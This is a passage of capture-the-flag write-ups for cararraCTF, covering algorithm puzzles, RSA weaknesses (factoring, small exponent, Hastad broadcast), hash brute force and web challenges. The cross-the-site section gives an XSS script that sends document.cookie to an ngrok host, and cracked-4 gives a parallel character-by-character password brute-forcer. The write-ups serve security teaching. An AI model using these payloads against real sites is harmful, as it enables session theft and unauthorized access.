        }
        System.out.println(dist[N-1]); 
    }
}
```

## cracked-1

Cybersecurity (50 points)

### Problem

The SHA-256 hash (in hex) of a PIN consisting only of the digits 1, 2, and 3 is given in `cracked-1.txt`. Given that the PIN is at most 12 digits long, find it. If you find the PIN is `1231231231`, enter the flag `cararraCTF{1231231231}`.

### Writeup

Since hashes are irreversible, the only way to solve this problem is to use brute force, checking the hash of each possible password with the given hash. We can do this easily using recursion as follows:

```python
import hashlib

f = open('hash.txt')
h = f.read().strip()

def dfs(curr):
    if hashlib.sha256(curr.encode('utf-8')).hexdigest() == h:
        return curr
    if len(curr) == 12:
        return
    for i in range(1,4):
        pin = dfs(curr+str(i))
        if pin:
            return pin

print(dfs(''))
```

Technically, BFS would be better if the PIN could be much longer but likely short, but length 12 is small enough that we can quickly enumerate all possibilities. Running the code, we get a PIN of `212312311123` and a flag of `cararraCTF{212312311123}`.

### Additional Solutions

Julia Brute Force (by Mastermind#7720)

```r
using SHA

function crack123(hashed::String) 
    for i in 1:(3^12)
        dig = digits(i, base=3)
        s = ""
        for d in dig
            s = s * "$(d + 1)"
        end
        if bytes2hex(sha256(s)) == hashed
            return s
        end
    end
end
```

Java Brute Force (by kp#0659)

```java
import java.io.*;
import java.security.*; 
import java.nio.charset.StandardCharsets;

public class cracked1 {
    static String answer; 
    static String BytesToHex(byte[] hash) {
        StringBuilder hexString = new StringBuilder(2 * hash.length);
        for (byte b : hash) {
            String hex = Integer.toHexString(0xff & b);
            if (hex.length() == 1) {
                hexString.append('0');
            }
            hexString.append(hex);
        }
        return hexString.toString();
    }
    static boolean check(long n) throws NoSuchAlgorithmException {
        MessageDigest digest = MessageDigest.getInstance("SHA-256");
        byte[] hash = digest.digest(Long.toString(n).getBytes(StandardCharsets.UTF_8));
        String test = BytesToHex(hash);
        return test.equals(answer);
    }
    public static void gen(long n, int len) throws NoSuchAlgorithmException {
        if (len > 12) {
            return; 
        }
        if (check(n)) {
            System.out.println(n); 
            return; 
        }
        for (int i = 1; i<=3; i++) {
            gen(n*10+i,len+1); 
        }
    } 
    public static void main(String[] args) throws IOException, NoSuchAlgorithmException {
        //https://www.baeldung.com/sha-256-hashing-java
        BufferedReader br = new BufferedReader(new FileReader("cracked-1.txt")); 
        answer = br.readLine();
        gen(0,0); 
    }
}
```

## cracked-2

Cybersecurity (100 points)

### Problem

Alice is messaging Bob using RSA encryption again, and as always she doesn't pay enough attention to the security of her conversation. Given Bob's public key and Alice's transmitted ciphertext in `cracked-2.txt`, find out the secret message Alice sent to Bob. If the secret message you found was `hi`, enter the flag `cararraCTF{hi}`.

Relevant links: [cracked-2.txt](http://cararra-ctf-files.herokuapp.com/cracked-2.txt)

### Writeup

Our public modulus `n` is pretty tiny, so we can factorize it in order to eventually find our private key `d` and decrypt the ciphertext.

Let's first put our information into a Python script.

```python
n = 1680628053509663
e = 65537
c = 320834585302941
```

We can iteratively factorize n as follows:

```python
factors = []
n0 = n
i = 2
while i*i < n0:
    if n0%i == 0:
        factors.append(i)
        n0 //= i
    i += 1

factors.append(n0)
```

By printing out `factors`, we find that `p = 666649` and `q = 2521008887`.

We can use `p` and `q` to compute Euler's totient of `n`.

$$\varphi(n) = (p-1)(q-1) = 1680625531834128$$

The private encryption key `d` is simply equal to the modular inverse of $e \pmod{\varphi(n)}$, so we can compute it using the following code (taken from [Geeks for Geeks](https://www.geeksforgeeks.org/multiplicative-inverse-under-modulo-m/)):

```python
def modInverse(a, m):
    m0 = m
    y = 0
    x = 1

    if (m == 1):
        return 0

    while (a > 1):

        # q is quotient
        q = a // m

        t = m

        # m is remainder now, process
        # same as Euclid's algo
        m = a % m
        a = t
        t = y

        # Update x and y
        y = x - q * y
        x = t

    # Make x positive
    if (x < 0):
        x = x + m0

    return x

d = modInverse(e, phi)
```

Now we simply compute $m = c^d \pmod n$ and convert it to ASCII.

```python
m = pow(c, d, n)
print(bytes.fromhex(hex(m)[2:]).decode('utf-8'))
```

This code prints `wassup`, giving us a flag of `cararraCTF{wassup}`.

Here is the full solution code:

```python
n = 1680628053509663
e = 65537
c = 320834585302941

factors = []
n0 = n
i = 2
while i*i < n0:
    if n0%i == 0:
        factors.append(i)
        n0 //= i
    i += 1

factors.append(n0)

[p,q] = factors

phi = (p-1)*(q-1)

def modInverse(a, m):
    m0 = m
    y = 0
    x = 1

    if (m == 1):
        return 0

    while (a > 1):

        # q is quotient
        q = a // m

        t = m

        # m is remainder now, process
        # same as Euclid's algo
        m = a % m
        a = t
        t = y

        # Update x and y
        y = x - q * y
        x = t

    # Make x positive
    if (x < 0):
        x = x + m0

    return x

d = modInverse(e, phi)

m = pow(c, d, n)
print(bytes.fromhex(hex(m)[2:]).decode('utf-8'))
```

### Additional Solutions

Java Factorization (by kp#0649)

```java
import java.io.*;
import java.math.*; 

public class cracked2 {
    static long totient(long n) {
        long result = n;
        for (long i = 2; i*i<=n; i++) {
            if (n%i == 0) {
                while (n%i == 0) {
                    n /= i;
                }
                result -= result/i;
            }
        }
        if (n > 1) {
            result -= result/n; 
        }
        return result; 
    }
    static String HexToAscii(String hex) {
        StringBuilder result = new StringBuilder();
        for (int i = 0; i < hex.length() - 1; i += 2) {
            String tempInHex = hex.substring(i, (i + 2));
            int decimal = Integer.parseInt(tempInHex, 16);
            result.append((char) decimal);
        }
        return result.toString();
    }
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("cracked-2.txt")); 
        BigInteger n = BigInteger.valueOf(Long.parseLong(br.readLine().substring(2)));
        BigInteger e = BigInteger.valueOf(Long.parseLong(br.readLine().substring(2)));
        BigInteger c = BigInteger.valueOf(Long.parseLong(br.readLine().substring(2)));
        BigInteger phi = BigInteger.valueOf(totient(n.longValue()));
        BigInteger d = e.modInverse(phi);
        BigInteger m = c.modPow(d,n);
        System.out.println(HexToAscii(m.toString(16)));
    }
}
```

## cracked-3

Cybersecurity (150 points)

### Problem

Alice is messaging Bob using RSA encryption again, but she learned from her mistakes. This time she used massive primes to come up with her public modulus, and since the public exponent seemed irrelevant she decided to change it up. Given Bob's public key and Alice's transmitted ciphertext in `cracked-3.txt`, find out the secret message Alice sent to Bob.

Relevant links: [cracked-3.txt](http://cararra-ctf-files.herokuapp.com/cracked-3.txt)

### Writeup

The first thing we notice is that e is tiny. The problem with that is that exponentiation by itself is not irreversible; only MODULAR exponentiation is irreversible. Since e is so small, the public modulus does not actually come into play, in which case we simply need to find the cube root of the ciphertext.

Using built-in cube root function in Python does not work since it does not have the necessary precision. However, we know that the message must be an integer, so we can use binary search in order to find the exact value of the message.

Here is the code:

```python
n=54667474412628109944399724877536710925990478808127718930114824985934933461685088160072436439819256626459114113363234658524066942436647681200869411171274748339523432148428762011499379177296167073399371063151212361635927870532460426729914492356998244376695754513951394958843977369686574903405943274627
e=3
c=7196177664336611912486218017975164044723476217287185720127616331897652458639998115625921659998099851668247981376927040045425333551644795193001316639494809623109228632138452443729219705604679488118302273041548494388441955651922812016063243619091898352967536997

lo = 0
hi = c

while lo + 1 < hi:
    mid = (lo + hi)//2
    if mid * mid * mid > c:
        hi = mid
    else:
        lo = mid

print(bytes.fromhex(hex(lo)[2:]).decode('utf-8'))
```

Running the code, we get a flag of `cararraCTF{d0nt_m@k3_yOuR_e_s0_smOL}`.

### Additional Solutions

Java Binary Search (by kp#0649)

```java
import java.io.*;
import java.math.*;

public class cracked3 {
    static String HexToAscii(String hex) {
        StringBuilder result = new StringBuilder();
        for (int i = 0; i < hex.length() - 1; i += 2) {
            String tempInHex = hex.substring(i, (i + 2));
            int decimal = Integer.parseInt(tempInHex, 16);
            result.append((char) decimal);
        }
        return result.toString();
    }
    public static void main(String[] args) throws IOException{
        //https://crypto.stackexchange.com/questions/18301/textbook-rsa-with-exponent-e-3
        BufferedReader br = new BufferedReader(new FileReader("cracked-3.txt")); 
        BigInteger n = new BigInteger(br.readLine().substring(2));
        BigInteger e = new BigInteger(br.readLine().substring(2)); 
        BigInteger c = new BigInteger(br.readLine().substring(2)); 
        BigInteger lo = BigInteger.ONE;
        BigInteger hi = c;
        while (lo.compareTo(hi) <= 0) {
            BigInteger mid = lo.add(hi).divide(BigInteger.TWO);
            if (mid.pow(3).compareTo(c) >= 0) {
                hi = mid.subtract(BigInteger.ONE);
            }
            else {
                lo = mid.add(BigInteger.ONE);
            }
        }
        hi = hi.add(BigInteger.ONE);
        String hex = hi.toString(16);
        System.out.println(HexToAscii(hex));
    }
}
```

## cracked-4

### Problem

Find the password.

Relevant links: [cracked-4](https://cararra-ctf-files.herokuapp.com/cracked-4)

### Writeup

Just trying random passwords, we don't get anywhere.


However, if we use Inspect Element, we see the following hint:


Trying it out, we get a different response:


Since we know the password is of the form `cararraCTF{...}`, we try out different passwords that somewhat approximate the flag format. After trial and error, we find that we are only said to be on the right path if what we input matches the corresponding part of the flag (specifically, `cararraC` works but `cararraT` and `cararraF` do not).

This drastically reduces the amount of computational work we have to do since now we simply have to find the character at each location in the string, and slowly build up our password from there. Instead of a complexity of $O(256^N)$, we now have $O(256N)$.

Another problem is that sending GET requests synchronous takes a while, so if we try to do so our code will take forever. We need to implement some basic parallelism since sending requests is pretty fast, but waiting for responses takes a while. Therefore, we send requests in batches so that we can compute each letter of the password as quickly as possible.

The code for the exploit is below (written using Node.js).

```jsx
var request = require("request");

pass = "";

function testPass(test) {
  return new Promise(function (resolve, reject) {
    request(
      "https://cararra-ctf-files.herokuapp.com/cracked-4?pass=" +
        encodeURIComponent(test),
      { timeout: 1500 },
      (error, response, body) => {
        if (error) {
          return reject(error);
        }
        console.log(test);
        if (!body.toString().includes("Incorrect password!")) {
          pass = test;
        }
        resolve();
      }
    );
  });
}

async function testAll() {
  var promises = [];
  for (var i = 33; i < 127; i++) {
    test = pass + String.fromCharCode(i);
    promises.push(testPass(test));
  }
  await Promise.all(promises).catch((error) => {
    console.log(error);
  });
  next();
}

async function next() {
  if (pass[pass.length - 1] == "}") {
    console.log("Password: " + pass);
    return;
  }
  await testAll();
}

next();
```

### Additional Solutions

Java Parallelism (by kp#0649)

```java
import java.util.*;
import java.util.concurrent.*;
import java.net.http.*;
import java.net.*;
import java.nio.charset.StandardCharsets;
import java.io.*;

public class cracked4 {
    static class Validator extends RecursiveAction {
        public StringBuilder password;
        public Validator(StringBuilder p) {
            password = p;
        }
        public static boolean valid(StringBuilder s) throws IOException, InterruptedException {
            HttpClient client = HttpClient.newHttpClient();
            String test = "https://cararra-ctf-files.herokuapp.com/r1/cracked-4?pass=" + URLEncoder.encode(s.toString(), StandardCharsets.UTF_8);
            HttpRequest request = HttpRequest.newBuilder().uri(URI.create(test)).GET().build();
            HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());
            String text = response.body();
            return !text.contains("Incorrect password!");
        }
        @Override
        protected void compute() {
            try {
                if (!valid(password)) return;
                if (password.charAt(password.length()-1) == '}') {
                    System.out.println(password);
                    System.exit(0);
                }
                ArrayList<Validator> c = new ArrayList<>();
                for (int i = 33; i < 127; i++) {
                    StringBuilder t = new StringBuilder(password).append((char) i);
                    c.add(new Validator(t));
                }
                ForkJoinTask.invokeAll(c);
            }
            catch (IOException | InterruptedException ignored) {
            }
        }
    }
    public static void main(String[] args) {
        ForkJoinPool forkJoinPool = new ForkJoinPool();
        forkJoinPool.invoke(new Validator(new StringBuilder("cararra")));
    }
}
```


## double-pointy

Algorithms (50 points)

### Problem

Find the triple `(x, y, z)` where `x < y < z` in the array such that `x + y + z` is closest to 521. The input file is formatted as N, the number of elements in the array, followed with each element of the array on a new line. In the case of a tie, find the lexicographically smallest triple `(x,y,z)`. Enter your answer as `cararraCTF{x y z}`.

### Writeup

This is a two-pointer question where we vary `x`, then use two-pointer to find the `(y, z)` pair that results in the closest sum.

Specifically, if `y+z > 521 - x`, we move `z` to a lower number, but if `y+z > 521 - x`, we move `y` to a higher number. Since `y` and `z` traverse the numbers once collectively (`y` and `z` never cross since `y < z`) and x traverses all the numbers independently, our complexity is $O(N^2)$.

Here is the code:

```python
f = open("double-pointy.txt")

n = int(f.readline())

nums = [int(f.readline()) for i in range(n)]

closest_pair = None
closest_diff = None

nums.sort()

desired = 521

for i in range(n):
    p1, p2 = i+1, n-1
    while p2 > p1:
        curr_diff = nums[i] + nums[p1] + nums[p2] - desired
        curr_pair = (nums[i], nums[p1], nums[p2])

        if not closest_diff or abs(curr_diff) < closest_diff:
            closest_diff = abs(curr_diff)
            closest_pair = curr_pair
        elif abs(curr_diff) == closest_diff:
						# to get the lexicographically smallest triple
            closest_pair = min(closest_pair, curr_pair)

        if curr_diff > 0:
            p2 -= 1
        else:
            p1 += 1

print(closest_pair)
```

Running the code, we get `(x,y,z) = (-600, 543, 579)` and a flag of `cararraCTF{-600 543 579}`.

### Additional Solutions

Java Double Pointer (by kp#0649)

```java
import java.util.*; 
import java.io.*; 

public class doublepointy {
    public static void main(String[] args) throws IOException{
        BufferedReader br = new BufferedReader(new FileReader("double-pointy.txt")); 
        int N = Integer.parseInt(br.readLine()); 
        int[] nums = new int[N];
        for (int i = 0; i<N; i++) {
            nums[i] = Integer.parseInt(br.readLine()); 
        }
        Arrays.sort(nums); 
        int target = 521; 
        int bestGap = Integer.MAX_VALUE; 
        int a=0, b=0, c=0; 
        for (int i = 0; i<N-2; i++) {
            int l = i+1;
            int r = N-1; 
            while (l < r) {
                int temp = nums[i] + nums[l] + nums[r]; 
                if (Math.abs(temp - target) < bestGap) {
                    bestGap = Math.abs(temp-target); 
                    a = nums[i];
                    b = nums[l];
                    c = nums[r]; 
                }
                if (temp < target) {
                    l++; 
                }
                else {
                    r--; 
                }
            }
        }
        System.out.println(a + " " + b + " " + c); 
    }
}
```

## cross-the-site

(Cybersecurity, 275 points)

### Problem

I made a fun playground for testing out HTML! Unfortunately, you want to use it for not-so-fun purposes. Steal the admin's cookie.

Relevant links: [cross-the-site](http://cararra-ctf-files.herokuapp.com/r1/cross-the-site), [admin-bot](http://cararra-ctf-files.herokuapp.com/r1/admin-bot)

### Writeup

Note: Making this problem taught me a lot more than solving it, it's pretty impressive what JavaScript can do.

Whenever a site is displaying un-sanitized user input, there is probably a big vulnerability. Since the HTML to be displayed is given as a query parameter in the URL, this seems like a good opportunity for a Reflected XSS attack.

The idea is to have the admin bot visit a URL that displays a script that we control, which we can do pretty easily using `<script>` elements.

The first step is to decide what we need the script to do. The way I chose to do it was to host an HTTP server, and have the admin bot send me a GET request with a URL that reveals its cookies.

Hosting the HTTP server is easy using `http-server`, which can be installed using `npm i -g http-server`. 


We then use `ngrok` in order to forward our local server to a public URL. After running the command `$ ngrok http 8080`, we get the following:


We then need to send the exploit to the admin so that he sends us his cookies. Here is the HTML we need him to display on his browser:

```html
<script>
   var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", "http://eee1ee5e27b9.ngrok.io/?"+document.cookie, false ); 
    xmlHttp.send( null );
</script>
```

We simply put that into the cross-the-site website to test it out, and we got it! Well, not quite, but now we just need to make the admin visit the same link and we'll get the flag instead of a random `hi` cookie I put in.


Just copy the same URL, paste it into the admin-bot site, and now we actually got it.



We have that the flag is `cararraCTF{d0nt_d1SP4y_uSeR_!npUt_cuz_XSS}`! Congratulations if you solved this one, this is definitely one of the hardest ones I made even though it is a pretty routine hard challenge in Web Exploit.

## zip-scripts

Cybersecurity (100 points)

### Problem

Where's the flag? The password for zip-scripts.zip is VMxAMyaDOX.

Relevant links: [zip-scripts.zip](https://cararra-ctf-files.herokuapp.com/zip-scripts.zip)

### Writeup

After opening the first file, we notice that following zip files have a password given in their enclosing zip file. Since there are presumably 1000 of these files, we do not want to do it by hand, so we can use this very clean BASH script to open all of them (you can do it with Python, but it isn't clean by any means).

```bash
for ((i = 999 ; i >= 0 ; i--))
do
  pass=`cat password${i}.txt`
  rm password${i}.txt
  unzip -P $pass zip${i}.zip
  rm zip${i}.zip
done
```

Run that, and you should have your flag `cararraCTF{whY_z1P_Wh3n_u_c@n_ScR!Pt?}` waiting for you in `flag.txt`.

### Additional Solutions

PowerShell (by kp#0649)

This can be done in PowerShell as well, but a dependency needs to be installed. If you have 7-Zip installed on your computer, you can simply call its commands through PowerShell. 

```powershell
$7ZipPath = "'C:\Program Files\7-Zip\7z.exe'"
For ($i=999; $i-ge 0; $i--) {
    $zipFile = "zip$i.zip" 
    $zipFilePassword = [IO.File]::ReadAllText("password$i.txt"); 
    $command = "& $7ZipPath e -y -tzip -p $zipFilePassword $zipFile"
    iex $command
    rm $zipFile; 
    rm "password$i.txt";   
}
```

Otherwise, you can install a module called 7Zip4Powershell that avoids having to download 7-Zip. 

```powershell
#Run PS in Adminstrator Mode
Install-Module -Name 7Zip4Powershell -RequiredVersion 1.13.0
```

Once, this module has been installed, the following code shall deliver the flag. 

```powershell
$curr = Get-Location 
for ($i=999; $i-ge 0; $i--) {
    $pwd = [IO.File]::ReadAllText("password$i.txt"); 
    Expand-7Zip -ArchiveFileName "zip$i.zip" -TargetPath $curr -Password $pwd
    rm "password$i.txt"
    rm "zip$i.zip"
}
cat flag.txt
```

## segmented-flowers

Algorithms (275 points)

### Problem

Bob is sitting on a tree consisting of `N` nodes numbered `1 ... N`, rooted at `1`, and growing upwards. The tree starts with no flowers. Each day, some number of new flowers magically appear at one of the nodes.

Occasionally, Bob teleports onto a node of the tree, and because he can only look up for some reason, he gains `1` happiness for each flower he sees from nodes in the subtree rooted at his node (all nodes that are reachable from his node by strictly moving away from the root of the tree).

The test case gives `N` and `Q` in the first line, followed by `N-1` edges denoted by a starting and ending node. Each of the remaining `Q` lines are events given in chronological order: each line either begins with an `F` followed by a node and how many new flowers appear at that node, or begins with a `T` followed by the node Bob teleports to and looks at flowers from.

Find Bob's happiness at the end of the `Q` events modulo `10^9 + 7`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

Relevant links: [segmented-flowers.txt](https://cararra-ctf-files.herokuapp.com/segmented-flowers.txt)

### Writeups

Quick queries and updates suggest that we should use a segment tree. However, segment trees can only query contiguous ranges quickly, so we first need to renumber the nodes in a way such that nodes of every subtree are numbered consecutively.

We can do so using a preorder traversal, then use a segment tree to update and query as necessary.

```cpp
#include <iostream>
#include <stdio.h>
#include <vector>

using namespace std;

int n, q;
vector<int> adj[100001];

// store number of children and numbers assigned during preorder traversal
int children[100001];
int numbers[100001];
int curr = 0;

int traverse(int parent, int current) {
  numbers[current] = curr++;
  for (int i : adj[current]) {
      if (i == parent) {
        continue;
      }
      children[current] += traverse(current, i);
  }
  return children[current] + 1;
}

int segtree[300000];
int mod = 1000000007;

int sum(int node, int start, int end, int query_start, int query_end) {
  if (end < query_start || start > query_end) {
    return 0;
  }
  if (start >= query_start && end <= query_end) {
    return segtree[node];
  }
  return (sum(2*node + 1, start, (start + end)/2, query_start, query_end) + sum(2*node + 2,(start + end)/2 + 1, end, query_start, query_end)) % mod;
}

void update(int node, int start, int end, int ind, int val) {
  if (start <= ind && end >= ind) {
    segtree[node] += val;
    segtree[node] %= mod;
    if (start == end) return;
    update(2*node + 1, start, (start + end)/2, ind, val);
    update(2*node + 2,(start + end)/2 + 1, end, ind, val);
  }
}

int main() {
  freopen("segmented-flowers.txt", "r", stdin);
  cin >> n >> q;

  for (int i = 0; i < n-1; i++) {
    int a, b;
    cin >> a >> b;
    adj[a-1].push_back(b-1);
    adj[b-1].push_back(a-1);
  }

  traverse(-1, 0);

  int tot = 0;
  for (int i = 0; i < q; i++) {
    char c;
    cin >> c;
    if (c == 'T') {
      int t;
      cin >> t;
      t--;
      tot += sum(0, 0, n-1, numbers[t], numbers[t]+children[t]);
      tot %= mod;
    } else {
      int ind, val;
      cin >> ind >> val;
      ind--;
      update(0, 0, n-1, numbers[ind], val);
    }
  }

  cout << tot << endl;
}
```

Running the code, we get an answer of `223981379` and a flag of `cararraCTF{223981379}`.

## cracked-5

Cybersecurity (275 points)

### Problem

Alice was more careful about her primes this time. Even though her e was small, she was fairly sure her message should still be safe. So, she decided to broadcast it to 3 of her friends: Bob, Carl, and Dylan. Given the 3 encrypted messages she sent, can you recover the flag?

Relevant links: [cracked-5.zip](https://cararra-ctf-files.herokuapp.com/cracked-5.zip)

### Writeup

Since her e is so small and we have 3 different moduli that are relatively prime, we can use the attack outlined in this [article](https://en.wikipedia.org/wiki/Coppersmith%27s_attack), Hastad's broadcast attack.

We can quickly code up Chinese Remainder Theorem using the extended Euclidean algorithm, then take the cube root of $M^3$ using binary search to get the flag.

```python
# adapted from https://github.com/TheAlgorithms/Python/blob/master/blockchain/chinese_remainder_theorem.py

n1 = 16699468984870777988462261035485055580018602860444760968350180576586373694838297063668042506286394935939392948186368283098929756706334620929656606020418565133550196407301018074162716891931390028736251
c1 = 9639306507700701992883792165820745349455296875400390307119969515159174510049823469150436248780727298310623119549240117751069206173879918076618901630795913576547942607514851744151041839906773940600660
n2 = 8224558567455220765728587506104151732396378847190982525125506140750905615143591660992327385732721943271838750646448518287561286306151093508828450205539196085078761263314357707883071184826795611883209
c2 = 3638609880089674137695702380954101797701987234375723590486432833570708045088321948638664735094685226570753297676669864830958066479811668227457427946720887871237040401843135643821619018120471596221385
n3 = 1308590236594800951095022438108663801033476583454109853482998866906771737014693248221422960217178659082890700631182313493306126297395992446631991367370360465899294552874073295336685633098866822891081
c3 = 437268718782793232217993157994932056362296109178283849041673862291049142929808936754608799443669131599939394807233397345742333299017022333550551648623457905052391607282509873199089560176854062795724

def extended_euclid(a, b):
    if b == 0:
        return (1, 0)
    (x, y) = extended_euclid(b, a % b)
    k = a // b
    return (y, x - k * y)

def chinese_remainder_theorem(n1, r1, n2, r2):
    (x, y) = extended_euclid(n1, n2)
    m = n1 * n2
    n = r2 * x * n1 + r1 * y * n2
    return (n % m + m) % m

m3 = chinese_remainder_theorem(n1*n2, chinese_remainder_theorem(n1, c1, n2, c2), n3, c3)

lo = 0
hi = m3

while lo + 1 < hi:
    mid = (lo + hi)//2
    if mid * mid * mid > m3:
        hi = mid
    else:
        lo = mid

print(bytes.fromhex(hex(lo)[2:]).decode('utf-8'))
```

Running the code, we get a flag of `cararraCTF{ch1N3Se_rEm41nd3r_TH3orem_OP}`.

## heavy-light-flowers

Algorithms (325 points)

### Problem

Bob is sitting on a tree consisting of `N` nodes numbered `1 ... N`, rooted at 1, and growing upwards. The tree starts with no flowers. Each day, some number of new flowers magically appear at one of the nodes.

Now, however, Bob needs to actually touch the flowers to be happy. So, he occasionally teleports to a node and walks to another node along the unique path between them, touching all the flowers at each node along the way and gaining one happiness per flower he touches.

The test case gives `N` and `Q` in the first line, followed by `N-1` edges denoted by a starting and ending node. Each of the remaining Q lines are events given in chronological order: each line either begins with an `F` followed by a node and how many new flowers appear at that node, or begins with a `T` followed by the node Bob teleports to and the node he walks to.

Find Bob's happiness at the end of the `Q` events modulo `10^9 + 7`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

Relevant links: [heavy-light-flowers.txt](https://cararra-ctf-files.herokuapp.com/heavy-light-flowers.txt)

### Writeup

This problem is significantly harder than `segmented-flowers` since we not only need segment trees, but we also need heavy-light decomposition (HLD) and least common ancestor (LCA). We use binary search to find the LCA (there are other methods, this is probably the easiest to implement).

We basically binary search to find the earliest parent that isn't the same between the two nodes, then repeat the process until we find the closest common ancestor.

```cpp
#include <iostream>
#include <stdio.h>
#include <vector>

using namespace std;

int n, q;
vector<int> adj[100001];

int segtree[300000];
int mod = 1000000007;

int sum(int node, int start, int end, int query_start, int query_end) {
  if (end < query_start || start > query_end) {
    return 0;
  }
  if (start >= query_start && end <= query_end) {
    return segtree[node];
  }
  return (sum(2*node + 1, start, (start + end)/2, query_start, query_end) + sum(2*node + 2,(start + end)/2 + 1, end, query_start, query_end)) % mod;
}

void update(int node, int start, int end, int ind, int val) {
  if (start <= ind && end >= ind) {
    segtree[node] += val;
    segtree[node] %= mod;
    if (start == end) return;
    update(2*node + 1, start, (start + end)/2, ind, val);
    update(2*node + 2,(start + end)/2 + 1, end, ind, val);
  }
}

// store the 2^jth parent of node i and number of children of each node
int parent[100001][20];
int children[100001];
int depth[100001];

int head[100001];
int numbers[100001];
int curr = 0;

int traverse(int node) {
  int p = 0;
  while (parent[node][p] > -1) {
    parent[node][p+1] = parent[parent[node][p]][p];
    p++;
  }
  for (int i : adj[node]) {
    if (i == parent[node][0]) continue;
    parent[i][0] = node;
    depth[i] = depth[node] + 1;
    children[node] += traverse(i);
  }
  return children[node] + 1;
}

int lca(int a, int b) {
  if (depth[b] < depth[a]) {
    int tmp = a;
    a = b;
    b = tmp;
  }
  int diff = depth[b] - depth[a];
  int counter = 0;
  while (diff > 0) {
    if (diff % 2 == 1) {
      b = parent[b][counter];
    }
    diff /= 2;
    counter++;
  }
  if (a == b) {
    return a;
  }
  int lo = -1;
  int hi = 20;
  while (lo + 1 < hi) {
    int mid = (lo + hi)/2;
    if (parent[a][mid] != parent[b][mid]) {
      lo = mid;
    } else {
      hi = mid;
    }
  }
  if (lo == -1) {
    return parent[a][0];
  }
  return lca(parent[a][lo], parent[b][lo]);
}

void hld(int node) {
  numbers[node] = curr++;

  int maxind = -1;
  for (int i : adj[node]) {
    if (i == parent[node][0]) continue;
    if (maxind == -1 || children[i] > children[maxind]) {
      maxind = i;
    }
  }

  if (maxind == -1) return;

  head[maxind] = head[node];
  hld(maxind);
  for (int i : adj[node]) {
    if (i == parent[node][0] || i == maxind) continue;
    head[i] = i;
    hld(i);
  }
}

int hld_sum(int node, int ancestor) {
  int tot = 0;
  while (head[ancestor] != head[node]) {
    tot += sum(0, 0, n-1, numbers[head[node]], numbers[node]);
    tot %= mod;
    node = parent[head[node]][0];
  }
  tot += sum(0, 0, n-1, numbers[ancestor], numbers[node]);
  tot %= mod;
  return tot;
}

int path_sum(int a, int b) {
  int ancestor = lca(a, b);
  return (hld_sum(a, ancestor) + hld_sum(b, ancestor) - sum(0, 0, n-1, numbers[ancestor], numbers[ancestor])) % mod;
}

int main() {
  freopen("heavy-light-flowers.txt", "r", stdin);
  cin >> n >> q;

  for (int i = 0; i < n-1; i++) {
    int a, b;
    cin >> a >> b;
    adj[a-1].push_back(b-1);
    adj[b-1].push_back(a-1);
  }

  for (int i = 0; i < n; i++) {
    for (int j = 0; j < 20; j++) {
      parent[i][j] = -1;
    }
  }

  traverse(0);
  hld(0);

  int tot = 0;
  for (int i = 0; i < q; i++) {
    char c;
    cin >> c;
    if (c == 'T') {
      int a, b;
      cin >> a >> b;
      a--;
      b--;
      tot += path_sum(a, b);
      tot %= mod;
    } else {
      int ind, val;
      cin >> ind >> val;
      ind--;
      update(0, 0, n-1, numbers[ind], val);
    }
  }

  cout << tot << endl;
}
```

Running the code, we get an answer of `430637331` and a flag of `cararraCTF{430637331}`.

### Additional Solutions

C++ Euler Tour Trick (by Your Resident Asian#1111)

```cpp
#include <bits/stdc++.h>
using namespace std;
using ll = long long;

const int N = 1e5 + 69, L = 19;
const ll M = 1e9 + 7;
int n, q, t = 1, in[N], out[N], dep[N], lift[N][L];
ll ans, bit[N * 2];
vector<int> adj[N];

void upd(int i, ll x) {
    for (++i; i < N * 2; i += i & -i)
        bit[i] += x;
}
ll query(int i) {
    ll ret = 0;
    for (++i; i; i -= i & -i)
        ret += bit[i];
    return ret;
}

void dfs(int v = 1, int p = 0, int d = 0) {
    in[v] = t++, dep[v] = d;
    lift[v][0] = p;
    for (int i = 1; i < L; ++i)
        lift[v][i] = lift[lift[v][i - 1]][i - 1];
    for (int u : adj[v])
        if (u != p)
            dfs(u, v, d + 1);
    out[v] = t++;
}
int lca(int u, int v) {
    if (dep[u] > dep[v])
        swap(u, v);
    int dif = dep[v] - dep[u];
    for (int i = L - 1; ~i; --i)
        if (dif & (1 << i))
            v = lift[v][i];
    if (u == v)
        return v;
    for (int i = L - 1; ~i; --i)
        if (lift[u][i] != lift[v][i])
            u = lift[u][i], v = lift[v][i];
    return lift[u][0];
}

int main() {
    ifstream cin("heavy-light-flowers.txt");
    cin >> n >> q;
    for (int i = 1, u, v; i < n; ++i) {
        cin >> u >> v;
        adj[u].push_back(v);
        adj[v].push_back(u);
    }
    dfs();
    while (q--) {
        char c; int u, v;
        cin >> c >> u >> v;
        if (c == 'T') {
            int l = lca(u, v);
            (ans += (query(out[u] - 1) + query(out[v] - 1) - query(out[l] - 1) - query(out[lift[l][0]] - 1)) % M) %= M;
        }
        else {
            upd(in[u], v);
            upd(out[u], -v);
        }
    }
    cout << ans << '\n';
}
```

